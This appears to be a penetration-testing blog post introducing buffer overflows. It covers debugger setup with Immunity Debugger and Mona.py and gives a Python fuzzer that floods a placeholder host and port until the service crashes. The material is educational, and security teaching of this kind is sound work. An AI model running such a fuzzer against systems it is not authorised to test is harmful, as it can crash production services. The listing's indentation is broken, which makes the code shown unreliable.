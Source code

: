 ```yaml
---
layout: post
title: Buffer Overflow Overview
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2021-11-02
tags: [buffer overflow, general, windows]
categories: [Tools]
toc:  true
---
```


Buffer overflows are a must have for any penetration testers arsenal.

To perform a buffer overflow attack, some setup is needed for it to be effective and to not crash any production or business critical applications.

## Setup

First off, If possible you must download a copy of the vulnerable application to your own testing machine running your choice of debugging program. For this example we will use [Immunity Debugger](https://www.immunityinc.com/products/debugger/) along with an additional script add-on called [Mona.py](https://github.com/corelan/mona).

![Immunity Debugger with Mona.py](https://mitchelldstein.github.io/assets/images/BufferOverflow/ImmunityDebugger.png)

## Fuzzing

Fuzzing is the process of finding errors and security flaws in software or networks. Fuzzing for buffer overflows involved sending larger and larger commands into the program in hopes to crash it and log the length of the command.

Here is a fuzzer made in python that will interact with the running application and log the length of the command sent.

***fuzzer.py:***

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "<cmd if needed>"

string = prefix + "A" * 100

while True:
    try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```
